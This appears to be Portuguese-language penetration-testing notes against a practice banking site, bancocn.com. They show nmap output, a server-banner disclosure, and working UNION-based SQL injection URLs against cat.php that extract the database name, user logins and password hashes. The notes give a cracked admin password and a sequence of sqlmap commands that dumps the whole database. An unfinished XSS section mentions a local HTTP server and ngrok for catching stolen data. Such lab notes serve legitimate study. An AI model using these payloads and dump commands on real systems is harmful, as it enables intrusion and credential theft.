 |_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: cloudflare
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge|general purpose|switch
Running (JUST GUESSING): Oracle Virtualbox (98%), QEMU (93%), Bay Networks embedded (88%)
OS CPE: cpe:/o:oracle:virtualbox cpe:/a:qemu:qemu cpe:/h:baynetworks:baystack_450
Aggressive OS guesses: Oracle Virtualbox (98%), QEMU user mode network gateway (93%), Bay Networks BayStack 450 switch (software version 3.1.0.22) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

### Information Disclorsure

Apache/2.4.29 (Ubuntu) Server at www.bancocn.com Port 80

### Directory: http://www.bancocn.com/assets

## SQL injection

* Vendo o nome do banco de dados
www.bancocn.com/cat.php?id=-1 union select 1,2,database()

* Vendo os usuários
www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(login) from users

retorna: admin

* Verificando as senhas
www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(password) from users

retorna:
7b71be0e85318117d2e514ce2a2e222c
(hash da senha - não consegue descriptografar, apenas com ataque bruto)

Por meio do hash killer
Senha é: senhafoda

Para automatizar, a gente pode usar o comando sqlmap

sqlmap -u "http://bancocn.com/cat.php?id=1" 

sqlmap -r header.txt -D bancocn -tables

sqlmap -r header.txt -D bancocn -T users --collumns

sqlmap -r header.txt -D bancocn -T users -C login, password --dump

sqlmap -r header.txt --dump-all

## Ataque XXS

python3 -m http.server
Mas  é melhor usar o site ngrok

